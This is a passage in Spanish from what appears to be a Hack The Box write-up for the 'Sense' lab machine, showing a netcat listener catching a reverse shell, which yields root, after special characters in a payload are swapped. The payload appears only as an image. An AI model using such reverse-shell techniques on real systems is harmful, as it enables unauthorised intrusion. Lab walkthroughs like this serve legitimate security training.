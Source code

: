 * Abre una **netcat**:
```bash
nc -nvlp 443
listening on [any] 443 ...
```

* Utiliza la **Reverse Shell** que mencione y cambia los caracteres especiales, por los que encontramos:

<p align="center">
<img src="/assets/images/htb-writeup-sense/Captura18.png">
</p>

* Observa la **netcat**:
```bash
nc -nvlp 443
listening on [any] 443 ...
connect to [Tu_IP] from (UNKNOWN) [10.10.10.60] 4360
whoami
root
id
uid=0(root) gid=0(wheel) groups=0(wheel)
```
Y listo, hemos vuelto a ganar acceso y completado la máquina.


<br>
<br>
<div style="position: relative;">
 <h2 id="Links" style="text-align:center;">Links de Investigación</h2>
  <button style="position:absolute; left:80%; top:3%; background-color:#444444; border-radius:10px; border:none; padding:4px;6px; font-size:0.80rem;">
   <a href="#Indice">Volver al Índice</a>
  </button>
</div>
